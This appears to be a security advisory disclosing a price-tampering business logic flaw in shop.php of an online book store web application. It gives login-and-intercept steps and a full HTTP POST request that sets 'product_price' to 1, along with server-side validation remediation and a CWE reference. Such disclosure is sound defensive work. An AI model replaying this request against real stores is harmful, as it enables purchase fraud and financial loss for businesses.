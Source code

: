 # keerti1924 / Online-Book-Store-Website - shop.php Business Logic Flaw

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The shop.php script in keerti1924's Online-Book-Store-Website is vulnerable to a business logic flaw. By manipulating the 'product_price' parameter during the purchase process, authenticated users can change the price of items in their shopping cart to an arbitrary value, potentially leading to financial losses for the business.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Add a book to the cart and intercept the request.\
Step 3: Modify the value of the 'product_price' parameter to the desired price.\
Step 4: Observe that the item's price in the cart has been changed accordingly.\

## HTTP Request Example
```http request
POST /shop.php HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED]
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

product_quantity=1&product_name=The+Bookshop&product_price=1&product_image=book+shop.jpg&add_to_cart=Add+to+cart
```

### Proof with Screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/Business%20Logic/Business%20Logic%20shop.php%20proof%20.png?raw=true)

## Remidiation
To mitigate this issue, ensure that all price-related calculations are performed and verified on the server-side. Implement proper access controls and validation mechanisms to prevent unauthorized modifications to prices or other critical parameters during the purchase process.

## CWE
[CWE-840: Business Logic Errors ](https://cwe.mitre.org/data/definitions/840.html)